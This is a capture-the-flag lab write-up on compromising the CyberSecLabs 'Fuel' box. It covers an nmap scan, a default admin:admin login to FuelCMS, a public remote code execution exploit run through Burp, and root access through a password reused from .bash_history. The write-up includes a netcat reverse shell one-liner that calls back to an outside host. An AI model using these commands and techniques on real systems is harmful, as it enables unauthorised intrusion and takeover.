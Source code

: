 ```yaml
---
layout: page
title: Fuel - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/fuel.html
---
```


# Fuel - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.28`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d84799e8-41a0-4f6c-bfb4-d09ce25c4625/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d84799e8-41a0-4f6c-bfb4-d09ce25c4625/Untitled.png)

Lets check out port 80

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1d4ff7aa-600e-403a-bce6-b2872712c527/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1d4ff7aa-600e-403a-bce6-b2872712c527/Untitled.png)

Looks like we have FuelCMS here.  According to the robots.txt results from the nmap scan, /fuel is disallowed for serach engines so lets go there and see what we can find.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0599241c-6de5-4db5-a7d2-fc4f5ebc02d8/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0599241c-6de5-4db5-a7d2-fc4f5ebc02d8/Untitled.png)

We have a login, first thing I like to do is try default logins and sure enough **admin:admin** worked.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f945cfbb-ecfa-4e8a-ae53-b4c64a0d4956/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f945cfbb-ecfa-4e8a-ae53-b4c64a0d4956/Untitled.png)

Nice, after looking around for a while I couldn't figure anything out to exploit this further from the admin panel so I decided to look up some potential exploits for this version and found the following.

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47138)

This is a RCE vuln that sends the malicious url with the command we want to send to the server.  It loops so we can send endless commands as long as we have connection.  It also forwards to a proxy like burp which we could simply remove but I decided to keep during the testing.

I admit, I got stuck on this for a while thinking it wouldn't work, trying to move to a different path thinking this exploit is broken before coming back.  When I first ran the exploit, I first ran **whoami** like this.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e506c9e1-071a-4c7c-bc96-03c265b8e32b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e506c9e1-071a-4c7c-bc96-03c265b8e32b/Untitled.png)

So I sent to Repeater and got this response.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ea1d1ea5-269e-4a99-9090-e7634c3a1ea1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ea1d1ea5-269e-4a99-9090-e7634c3a1ea1/Untitled.png)

I saw the **systemmoira** and thought yeah they looks like the return to the command I issued.  I then decided to modify the request within burp to issue the command **id**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ea1d1ea5-269e-4a99-9090-e7634c3a1ea1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ea1d1ea5-269e-4a99-9090-e7634c3a1ea1/Untitled.png)

But I got the same outcome... Everytime I came back to this exploit, just knowing this was the path onto the machine, but just couldn't get it to work.

Then after just turning intercept off of burp and trying the command I saw the output I needed from the command window

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3a747222-b422-4870-85cf-453b9d0caa0e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3a747222-b422-4870-85cf-453b9d0caa0e/Untitled.png)

Finally!  Now that I ran a few different commands such as **pwd** and **ls -l** and got different results I knew I was on the right track.  Not sure why I was getting weird results through brup but either way I moved on.

I used the netcat reverse shell one liner below to get a shell onto the machine.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.11 1234 >/tmp/f`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/671de87a-cece-46ee-bbc4-18b935820aed/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/671de87a-cece-46ee-bbc4-18b935820aed/Untitled.png)

Now time to copy over LinPEAS and see what we can find

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b14da16c-c8bf-4e18-9642-a246045c3004/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b14da16c-c8bf-4e18-9642-a246045c3004/Untitled.png)

I found the output of **.bash_history** to be interesting.  We see the password for moira.  I tried a few things such as **sudo -l** but ended up finding that the root password is the same as moira's.  So a simple **su root** is all that is needed.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1053b8f-337c-4255-a7cf-f027c52ca478/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1053b8f-337c-4255-a7cf-f027c52ca478/Untitled.png)
